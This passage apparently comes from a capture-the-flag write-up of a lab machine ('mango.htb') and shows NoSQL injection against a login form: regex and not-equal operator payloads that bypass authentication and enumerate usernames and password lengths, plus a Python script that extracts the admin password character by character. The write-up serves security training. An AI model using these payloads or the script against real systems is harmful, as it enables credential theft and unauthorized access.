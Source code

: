 I'll go back to the NoSQL injection and try to extract the usernames and passwords from the database. First, I'll find the username by using the `[$regex]` operator so I can provide a regex inside of the username parameter.

I already guessed that `admin` is a valid username so I don't even need the regex for that one. The following evaluates to TRUE (returns a 302):

`username[$regex]=^admin$&password[$ne]=invalid&login=login`

Next, I'll try each letter of the alphabet like this:

`username[$regex]=^b.*$&password[$ne]=invalid&login=login`

I find a username starting with letter m with:

`username[$regex]=^m.*$&password[$ne]=invalid&login=login`

So now I just need to guess each letter like:

`username[$regex]=^m.*$&password[$ne]=invalid&login=login`

`username[$regex]=^ma.*$&password[$ne]=invalid&login=login`

`username[$regex]=^man.*$&password[$ne]=invalid&login=login`

`username[$regex]=^mang.*$&password[$ne]=invalid&login=login`

`username[$regex]=^mango.*$&password[$ne]=invalid&login=login`

So I have `mango` and `admin` as valid usernames. Now it's time to tackle the passwords for each account. I can find the password length by using something like this:

Admin (12 characters): `username=admin&password[$regex]=^.{12}$&login=login`
Mango (16 characters): `username=mango&password[$regex]=^.{16}$&login=login`

For the password, I can just the same technique manually or write a simple script like the following to automate the process:

```python
#!/usr/bin/env python3

import re
import requests
import string

chars = string.ascii_letters + string.digits + string.punctuation

print(f"Charset {chars}")

url = "http://staging-order.mango.htb/"
p = ""

while True:
    print(p)
    for x in chars:
        data = {
            "username": "admin",
            "password[$regex]": f"^{re.escape(p+x)}.*$",
            "login": "login"
        }
        r = requests.post(url, data=data, proxies={"http":"127.0.0.1:8080"}, allow_redirects=False)
        if r.status_code == 302:
            p += x
            break
```

